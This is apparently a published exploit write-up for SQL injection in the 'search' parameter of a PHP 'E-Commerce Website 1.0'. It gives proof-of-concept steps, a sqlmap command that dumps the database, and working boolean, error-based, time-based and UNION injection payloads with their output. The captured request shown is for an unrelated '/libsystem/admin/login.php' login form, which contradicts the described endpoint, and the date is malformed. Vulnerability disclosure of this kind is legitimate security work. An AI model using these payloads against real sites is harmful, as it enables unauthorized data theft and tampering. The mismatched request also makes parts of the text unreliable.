 # E-Commerce Website - SQL Injection 1
+ Exploit Title: E-Commerce Website - SQL Injection
+ Date: 2023-24-12
+ Exploit Author: Hamdi Sevben
+ Vendor Homepage: https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ Software Link: https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ Version: 1.0
+ Tested on: Windows 10 Pro + PHP 8.1.6, Apache 2.4.53

## References:

## Description:
E-Commerce Website 1.0 allows SQL Injection via parameter 'search' in "/Electricks/Electricks-shop/index_search.php".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Search Product textbox: "http://localhost/Electricks/Electricks-shop/index_search.php"
+ Fill Enter product name and search.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'search' parameter to dump the database. 

```
python sqlmap.py -r r.txt -p search --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: search=test' OR NOT 4831=4831-- wglp

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: search=test' AND (SELECT 3794 FROM(SELECT COUNT(*),CONCAT(0x717a707a71,(SELECT (ELT(3794=3794,1))),0x7162706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- tgSG

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 9664 FROM (SELECT(SLEEP(5)))rvAF)-- dHfN

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a707a71,0x6f6e55424c5968486469704d474a566a75696b44596473587874685a79756d7378646a7942777564,0x7162706b71),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[19:47:41] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:47:41] [INFO] fetching current database
current database: 'electricks'
```

+ current database: `electricks`

![1](https://github.com/h4md153v63n/CVEs/assets/5091265/e2d64c21-ad38-4af7-977c-d140d0642a28)

